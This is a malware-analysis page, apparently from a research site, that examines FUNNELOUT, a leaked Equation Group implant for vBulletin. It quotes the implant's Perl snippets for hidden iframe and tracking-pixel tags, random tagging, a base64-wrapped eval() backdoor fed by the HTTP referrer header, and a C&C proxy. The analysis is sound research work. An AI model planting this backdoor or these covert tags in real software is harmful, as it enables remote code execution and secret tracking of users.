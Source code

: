### [Home](https://CybernetiX-S3C.github.io)   [Main](https://CybernetiX-S3C.github.io/main)

[STOIC SURGEON](https://CybernetiX-S3C.github.io/main/stoicsurgeon)
[RESEARCH](https://CybernetiX-S3C.github.io/main/stoicsurgeon/research)
[CONTRIBUTING](https://CybernetiX-S3C.github.io/main/stoicsurgeon/contrib)
[ABOUT](https://CybernetiX-S3C.github.io/main/stoicsurgeon/about)

# FUNNELOUT

vBulletin implant. The code is able to add tags (in the form of an iframe and 1 pixel GIF tracker) to pages, a backdoor (remote eval via HTTP header content) and a proxy (send request to "proxy"/C&C and relay whatever it sends back to the client). The tag itself can be a proxy tag.

Tagging can be selective, FUNNELOUT uses a blacklist, a list of users to exclude and a list of users to include. By default all users are tracked, except for the ones hardcoded in the blacklist:

```
my $blackList = '84b8026b3f5e6dcfb29e82e0b0b0f386,e6d290a03b70cfa5d4451da444bdea39'; # unregistered (EN), dbedd120e3d3cce1 (AR)
```

This is the infamous [uncrackable hash of EQGRP](https://arstechnica.com/information-technology/2015/02/password-cracking-experts-decipher-elusive-equation-group-crypto-hashes/).

Tagging is basically just including [an iframe](https://github.com/CybernetiX-S3C/EQGRP_Linux/blob/master/Linux/up/funnelout.v4.1.0.1.pl#L1047) in the webpage content. The URL contains the username of the user that is loading the page allowing for returning different content per user. [A local image crumb](https://github.com/CybernetiX-S3C/EQGRP_Linux/blob/master/Linux/up/funnelout.v4.1.0.1.pl#L924) can also be included in the page. This allows for easily finding the user in the Apache logs on the vBulletin server [Source](https://github.com/CybernetiX-S3C/EQGRP_Linux/blob/master/Linux/up/funnelout.v4.1.0.1.pl#L262).

The crumb and the iframe, `$htt` contains the full tag URL:

```
$crumbBuild = <<END;
'<img src="images/' . bin2hex(substr(\$u,0,14)) . ".gif" . '" height="1" width="1" style="visibility:hidden">'
END
}
....
return $crumbBuild . '<iframe src="' . \$htt . '" height="1" width="1" scrolling="' . \$scroll .'" frameborder="0" unselectable="yes" marginheight="0" marginwidth="0"></iframe>';
```

Tagging also doesn't always happen. When the vBulletin post ID is not explicitely mentioned, the tagging is kinda ["random"](https://github.com/CybernetiX-S3C/EQGRP_Linux/blob/master/Linux/up/funnelout.v4.1.0.1.pl#L1023-L1028).

```
# this is the normal case. tag randomly every so often
else{ 
    $text4 = <<END;
if(\$td - \$rk[0] >= $tagTime) {
    \$rk[0] = \$td;
    \$rk[1] = rand(0, $tagInt);
    \$bd(\$key, serialize(\$rk), 1);
} 
```

If the backdoor is installed (in the footer template), then you can send executable PHP code in the [`HTTP_REFERRER` header](https://github.com/CybernetiX-S3C/EQGRP_Linux/blob/master/Linux/up/funnelout.v4.1.0.1.pl#L288) and it will be `eval()`ed. This allows for quick external access to the system.

```
my $codePrefix = '".@eval(base64_decode("';
my $codeSuffix = '"))."';
...
sub op_door {
    $code_door = $codePrefix . getBase64Encode('eval($_SERVER["HTTP_REFERRER"]); return "";') . $codeSuffix;
    
    print "Insert door\n";
    patch_db($code_door, $doorTemplate);
}

```

The proxy functionality will literally forward [the full request (body and everything)](https://github.com/CybernetiX-S3C/EQGRP_Linux/blob/master/Linux/up/funnelout.v4.1.0.1.pl#L1120-L1151) towards the proxy and it will return to the user whatever [the proxy returns](https://github.com/CybernetiX-S3C/EQGRP_Linux/blob/master/Linux/up/funnelout.v4.1.0.1.pl#L1209) (like... a... proxy...).

Also check [Kaspersky EQGRP questions and answers](https://cdn.securelist.com/files/2015/02/Equation_group_questions_and_answers.pdf), FUNNELOUT is the code generator for the PHP code found on page 24.

![Kaspersky, example found in the wild](../assets/images/funnelout_kaspersky.png)

([Source](https://cdn.securelist.com/files/2015/02/Equation_group_questions_and_answers.pdf))


In the code found by Kaspersky, the tag URL is `http://technology-revealed[.]com/expand/order.php?design=ABRSRgDQlkUALAxGANDrRuQQofe6Y0THS8E3hfBC+M+k7CdBmTH5gAkLvgV8EV3ULW+7KoUjbJ4UOFU6SVOtgEK7zTgPPNoDHz4vKecDGe7OzDmJlvwKvc5uYg/I/5x9&sn=" . bin2hex(substr($u,0,14));` Where `$u` is the username. We also find that the crumb string is empty (just before the iframe HTML code there's a concatenation with an empty string). 

The blacklist in the Kaspersky report only contains the two md5s that are default. Since the blacklist is build up with these default entries and then a whitelist of people not to follow and a blacklist of people to follow (see [here](https://github.com/CybernetiX-S3C/EQGRP_Linux/blob/master/Linux/up/funnelout.v4.1.0.1.pl#L833-L864)), we know that EQGRP was following/tagging every user.

